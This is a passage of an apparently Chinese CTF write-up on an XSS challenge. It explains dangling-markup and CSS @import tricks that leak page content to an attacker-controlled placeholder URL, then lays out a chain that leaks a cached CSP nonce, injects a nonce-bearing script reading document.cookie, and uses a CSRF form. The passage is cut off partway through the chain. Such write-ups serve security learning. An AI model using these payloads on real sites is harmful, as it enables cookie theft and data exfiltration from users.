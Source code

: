 ```
</textarea><img a='
```

整个当前页面就会变为类似于这样的结构

```
</textarea><img a='...
...# 包含\r\n \t的垃圾信息
test' src'{xss_url}?a=....like?id{maybe_for_admin}....test'>
```

我们可以成功获得这部分页面的内容，这种攻击方式又叫**data exfiltration 数据泄露**

同样的，我们也可以通过引入css的方式来获取页面内容
```
<style>
...
...
*{}@import url('{xss_url}
...
');
```

这种引入方式的好处在于，他不受到换行的印象，所以比前一个更容易拿到数据。

获得目标之后，我们又要回到题目本身，既然是要拿到cookie，我们就必须找到绕过CSP的方法

## XSS ##

### 预期解 ###

仔细观察加载csp的请求时，我们可以发现一个特殊的设置
```
Cache-Control	
max-age=20
```
没错，在网站的assert目录，服务端开启了缓存

在我们在得知adminid的情况下，我们可以提前发送一次请求缓存，获取到nonceid之后，再构造xss。

整个利用链如下:
- 请求admin_id的js链接
```
<script src='https://h4x0rs.date/assets/csp.js?id=77e7528f65be043dee7def9a765a891488678997b946e48c39586c750fd6aee0&page=profile.php'></script>
```

- 然后解析nonce id
```
<script>
	setTimeout(()=>{
	
	var nonce = document.head.children[2].getAttribute('content').slice(18,-1);
	console.log(nonce);
	var f = document.body.appendChild(document.createElement('iframe'));
	f.src = 'x2.html#'+nonce;
	},2000);

</script>
```
- 用解析到的id构造xss
```
intro.textContent = "</textarea><script nonce="+location.hash.slice(1)+">alert(document.cookie);</scr"+"ipt>";
```
- csrf修改当前profile.php
```

<form action="https://h4x0rs.date/profile.php" method=POST>
```